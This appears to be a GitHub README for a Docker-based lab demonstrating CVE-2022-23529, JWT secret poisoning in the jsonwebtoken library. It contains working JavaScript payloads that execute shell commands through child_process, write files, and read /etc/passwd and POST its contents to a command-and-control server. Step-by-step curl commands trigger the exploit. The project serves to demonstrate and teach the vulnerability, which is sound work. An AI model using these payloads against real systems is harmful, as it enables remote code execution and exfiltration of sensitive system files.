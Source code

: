 ## JWT Secret Poisoning (CVE-2022-23529)

This project is to demonstrate the exploitation of the JWT Secret Poisoning attack (CVE-2022-23529. 

## Payloads

   ```sh
   { toString : ()=> {require("child_process").exec(`curl --http0.9 --location --request GET 'http://172.24.0.2:8000/app/info' --header 'Content-Type: application/json'`,(error,stdout,stderr) => {console.log(error);console.log(stdout);console.log(stderr);})}};
   { toString : ()=> {require('fs').writeFileSync('/tmp/malicious.txt', 'Vulnerable jsonwebtoken library. Upgrade to 9.0');}}
   { toString : ()=> {require('child_process').exec(`cat /etc/passwd`,(error,stdout,stderr) => {var z=stdout.replace(/\n/g, '-');var z=z.replace(/ /g, ''); console.log(z); require('child_process').exec(`curl --http0.9 --location --request POST 'http://172.24.0.4:4455/' --header 'Content-Type: text/plain' --data-raw `+z,(error,stdout,stderr) => {console.log(stdout);console.log(error);console.log(stderr)});});}};
   ```
 
## Getting started

### Prerequisites

* Docker
* Docker-compose

### Installation

1. Clone the repository

   ```sh
   cd /Data
   git clone https://github.com/govindasamyarun/jwt-secret-poisoning
   ```

2. Start the containers

   ```sh
   pwd: /Data/jwt-secret-poisoning
   
   docker-compose up --detach
   ```

## Application details
  
1. Vulnerable app - Uses vulnerable jsonwebtoken library

   ```sh
   IP: 172.24.0.3
   Port: 8080
   ```
2. C2 - Command and control server to collect the data from the vulnerable aplication 

   ```sh
   IP: 172.24.0.4
   Port: 4455
   ```

3. Internal app - Application process sensitive information

   ```sh
   IP: 172.24.0.2
   Port: 8000
   ```
   
 ## Exploit
 
The exploit works during the token verification process. 

1. Create a token 

   ```sh
   curl --location --request GET 'http://127.0.0.1:8080/api/token/create'
   ```
   
2. Update the Secrets manager with the new payload
    - Access http://127.0.0.1:8000/
    - Refer payloads file 
    - Enter a new payload
    - Submit
    
3. Verify token (copy token from step 1)

   ```sh
   curl --location --request POST 'http://127.0.0.1:8080/api/token/verify' --header 'token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ0NjBZbXkiLCJpc3MiOiJqd3RzZXJ2aWNlIiwia2V5X2lkIjoiVzNia00zMGF2SldZNWdoYkx5QjRyeW5XektzSkZmeGkiLCJpYXQiOjE2NzM1MDYxMDJ9.ed035LIQ7Qw0rn0NAz7B4aAptcxXdHYHpn7tbx5Rkv8'
   ```
   
4. The c2 server should have received the /etc/passwd content

   ```sh
   docker logs c2
   ```
 
5. Update secret variable in the app.js to test other payloads. 
   